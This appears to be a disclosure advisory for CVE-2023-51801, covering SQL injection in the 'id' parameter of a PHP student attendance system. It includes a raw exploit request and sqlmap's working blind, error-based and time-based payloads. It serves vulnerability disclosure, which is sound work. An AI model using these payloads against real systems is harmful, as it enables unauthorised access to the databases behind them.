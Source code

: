 # CVE-2023-51801
# Simple Student Attendance System v.1.0 - Multiple SQL injection vulnerabilities - student_form.php and class_form.php

**Description**:Simple Student Attendance System v.1.0 is prone to multiple SQL injection vulnerabilities that can be exploited by authenticated attackers. These vulnerabilities exist in student_form.php and class_form.php, allowing for the execution of arbitrary SQL commands via the 'id' parameter.  

**Vulnerable Product Version**: Simple Student Attendance System v.1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 29/11/2023  
**Confirmed on**: 10/01/2024  
**CVE**: CVE-2023-51801  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2023-51801  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2023-51801  
**Tenable Link**: https://www.tenable.com/cve/CVE-2023-51801  
**Tested on**: Windows  
### Steps to reproduce:  
To exploit this vulnerability, an attacker is required to navigate to either the 'Student' or 'Classes' pages, where they can proceed to edit or add a student or class. The malicious payload should then be inserted into the 'id' parameter.  
**Affected Component**:  
> Components:  student_form.php and class_form.php  
> Parameter: id  
## Request:
```
POST /php-attendance/modals/class_form.php HTTP/1.1
Host: 192.168.68.182
Cookie: PHPSESSID=emhqgom5shgrtcii7p3a8ad1bo
Content-Length: 4
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://192.168.68.182
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.68.182/php-attendance/?page=class_list
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=1, i
Connection: close

id=1'
```
## SQLMap
```
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1''' AND 4206=4206-- KDFY

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1''' OR (SELECT 1707 FROM(SELECT COUNT(*),CONCAT(0x716a6a7071,(SELECT (ELT(1707=1707,1))),0x717a6a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xsae

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1''' AND (SELECT 1288 FROM (SELECT(SLEEP(5)))SVhp)-- EYkh
```
Discoverer(s)/Credits:  
Geraldo Alcântara
